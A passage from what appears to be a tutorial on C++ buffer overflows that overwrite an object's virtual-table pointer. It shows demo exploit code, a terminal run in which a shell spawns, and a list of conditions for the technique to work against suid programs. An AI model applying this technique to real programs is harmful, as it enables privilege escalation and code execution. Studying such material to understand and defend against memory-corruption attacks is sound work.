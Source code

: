  CBuf[LastByteOffset]=0; //last byte (for strcpy())

 return CBuf;
}

void main() {
 BaseClass *Object[2];
 unsigned long *VTABLEAddress;

 Object[0]=new MyClass1;
 Object[1]=new MyClass2; 

 printf("Object[0] address = %X\n",(unsigned long)&(*Object[0])); 
 VTABLEAddress=(unsigned long*) ((char*)&(*Object[0])+256);
 printf("VTable address = %X\n",*VTABLEAddress);
 
 Object[0]->SetBuffer(BufferOverflow((unsigned long)&(*Object[0]),3,BUFFERSIZE,
  0x0101,*VTABLEAddress,"newstring",0x29)); 
  
 Object[1]->SetBuffer("string2");
 Object[0]->PrintBuffer();
 Object[1]->PrintBuffer();
}


Now, we are ready to compile and to check...

rix@pentium:~/BO > gcc -o bo4 bo4.cpp
rix@pentium:~/BO > bo4
adresse Object[0] = 804A860
adresse VTable = 8049730
sh-2.02$ exit
exit
MyClass1: newstring
MyClass2: string2
rix@pentium:~/BO >

And as foreseen, our shell executes himself, then the program continue its
execution, with a new string in the buffer ("newstring ")!!!


Conclusion
==========
To summarize, let's note that the basis technique requires the following 
conditions for success:
- a buffer of a certain minimal size
- suid program
- executable heap and/or executable stack (according to techniques)
- to know the address of the beginning of the buffer (on the heap or on the 
   stack)
- to know the offset from the beginning of the buffer of the VPTR (fixed for
   all executions)
- to know the offset in the VTABLE of the pointer to the 1st method executed 
   after the overflow (fixed for all executions)
- to know the address of the VTABLE if we want to continue the execution of
   the program correctly.

